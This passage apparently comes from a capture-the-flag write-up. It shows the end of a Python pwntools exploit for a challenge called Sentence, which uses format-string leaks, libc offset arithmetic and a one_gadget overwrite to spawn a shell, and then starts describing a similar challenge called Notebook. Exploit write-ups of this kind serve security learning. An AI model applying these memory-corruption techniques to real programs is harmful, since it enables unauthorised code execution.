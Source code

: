 ```python
    print(hex(libc.address))
    print(hex(overwrite_offset))
    
    r.sendline(f'{str(leak2-0xE9)}')
    r.sendline(f'{str(overwrite_offset)}')
    # good luck pwning :)

    sla(":", format_string_payload_2)

    ru("Hi, ")
    leaks = r.recvline().split(b' ')[:2]
    leak1 = int(leaks[0][2:].decode('utf-8'),16)
    leak2 = int(leaks[1][2:].decode('utf-8'),16)
    print(hex(leak1))
    print(hex(leak2))
    libc.address = leak2 - 0x29D90
    overwrite_offset = leak1 + 0x2148
    r.sendline(f'{str(libc.address + one_gadget)}')
    r.sendline(f'{str(overwrite_offset)}')

    r.interactive()


if __name__ == "__main__":
    main()
```

### One Gadget
I used to following one gadget for spawning the shell
```
0x50a37 posix_spawn(rsp+0x1c, "/bin/sh", 0, rbp, rsp+0x60, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL
  rbp == NULL || (u16)[rbp] == NULL
```
It works because rbp is NULL when we call the return function!

This gives us an easy solve and the flag.

Once again, restarting is really unnecessary. 

# Notebook
Notebook followed an extremely similar pattern to Sentence, so I will keep it breif.

The challenge is a classic pwnable challenge, given a structure and ways to allocate, delete, view and edit it, pwn the program. At first since data is dynamically allocated, I thought that maybe it was a heap based challenge, but upon inspection I saw that we are only allowed 4 inputs. as seen in the main section of the program

![main loop](main_loop.png)
